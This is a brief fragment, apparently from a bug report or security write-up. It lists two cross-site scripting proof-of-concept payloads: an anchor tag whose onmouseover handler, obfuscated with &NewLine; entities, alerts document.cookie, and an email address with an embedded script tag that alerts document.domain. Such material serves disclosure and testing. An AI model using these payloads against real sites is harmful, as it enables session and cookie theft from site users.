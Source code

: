 1) `<a href=”javascript:void(0)” onmouseover=&NewLine;javascript:alert(document.cookie)&NewLine;>X</a>`
2) in email field -> `test+(<script>alert(document.domain)</script>)@gmail.com`